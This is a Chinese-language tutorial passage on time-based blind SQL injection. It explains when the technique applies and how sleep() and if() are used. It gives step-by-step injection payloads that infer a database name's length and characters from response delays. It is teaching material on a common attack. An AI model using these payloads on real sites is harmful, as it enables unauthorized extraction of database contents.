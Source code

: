 ###### 4）时间盲注

```
	界面返回值只有一种,true无论输入任何值 返回情况都会按正常的来处理。加入特定的时间函数，通过查看web页面返回的时间差来判断注入的语句是否正确。时间盲注与布尔盲注类似。时间型盲注就是利用时间函数的延迟特性来判断注入语句是否执行成功。
```

**什么情况下考虑使用时间盲注？**

```
1、无法确定参数的传入类型。整型，加单引号，加双引号返回结果都一样

2、不会回显注入语句执行结果，故无法使用UNION注入

3、不会显示报错信息，故无法使用报错注入

4、符合盲注的特征，但不属于布尔型盲注
```

**常用函数**

```
sleep(n)：将程序挂起一段时间 n为n秒。

if(expr1,expr2,expr3):判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句。

使用sleep()函数和if()函数：`and (if(ascii(substr(database(),1,1))>100,sleep(10),null))  --+`   如果返回正确则 页面会停顿10秒，返回错误则会立马返回。只有指定条件的记录存在时才会停止指定的秒数。
```

**时间盲注一般流程**

```
①猜测数据库名称长度：
输入：id=1' and If(length(database()) > 1,1,sleep(5)) --+
用时：<1s，数据库名称长度>1
…
输入：id=1' and If(length(database()) >8 ,1,sleep(5)) --+
用时：5s，数据库名称长度=8
得出结论：数据库名称长度等于8个字符。

②猜测数据库名称的一个字符：
输入：id=1' and If(ascii(substr(database(),1,1))=97,sleep(5),1) --+
用时：<1s
…
输入：id=1' and If(ascii(substr(database(),1,1))=115,sleep(5),1) --+
用时：5s
得出结论：数据库名称的第一个字符是小写字母s。
改变substr的值，以此类推第n个字母。最后猜出数据库名称。

③猜测数据库表名：先猜测长度，与上面内容相似。

④猜测数据库字段：先猜测长度，与上面内容相似。

⑤猜测字段内容：先猜测长度，与上面内容相似。
```
